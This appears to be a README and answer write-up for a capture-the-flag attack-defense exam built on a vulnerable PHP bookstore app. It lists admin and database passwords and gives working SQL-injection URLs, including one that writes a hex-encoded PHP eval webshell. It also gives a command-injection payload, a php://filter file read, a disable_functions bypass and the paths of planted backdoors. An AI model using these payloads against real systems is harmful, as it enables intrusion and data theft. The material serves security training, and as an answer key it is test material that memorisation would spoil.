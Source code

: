 # Yunxi_AWD_exam
2023/12/24 Yunxi AWD Exam

awd平台使用github开源平台，代码自行修改启动题目

本题目基于2023年国赛西南赛区半决赛book改编

wp：

后台密码：mama123  30e32fcd467fcb2e9910636b99b49a4d171be7f3

数据库密码：root

注意sql注入可直接利用sqlmap --os-shell，导出文件权限默认开启，数据库端口默认开启

sql注入1：http://192.168.153.128:8801/book.php?bookisbn=1

sql注入2：http://192.168.153.128:8801/admin_edit.php?bookisbn=1

```
http://192.168.153.128:8802/book.php?bookisbn=1' union select 1,2,3,4,load_file("/flag"),6,7,8%23
```

```
http://192.168.153.128:8802/book.php?bookisbn=1' 'union select 1,0x3c3f70687020406576616c28245f504f53545b627468636c735d293b3f3e,3,4,5,6,7,8 into outfile '/tmp/sql.php'%23
```

命令执行：http://192.168.153.128:8801/functions/database_functions.php?target=127.0.0.1|cat /flag

任意文件上传：http://192.168.153.128:8801/admin_add.php

任意文件包含：http://192.168.153.128:8801/index.php?file=

任意文件读取：http://192.168.153.128:8801/?file=php://filter/read=convert.base64-encode/resource=/flag

默认后门：http://192.168.153.128:8801/bootstrap/test/bypass_disablefunc.php?cmd=cat%20/flag&outpath=/tmp/xx&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so

图片马后门：http://192.168.153.128:8801/bootstrap/img/2.jpg

加密后门D盾有时查不出来，需自行排查

加密后门：http://192.168.153.128:8801/obs.php

隐藏后门：http://192.168.153.128:8801/.a.php
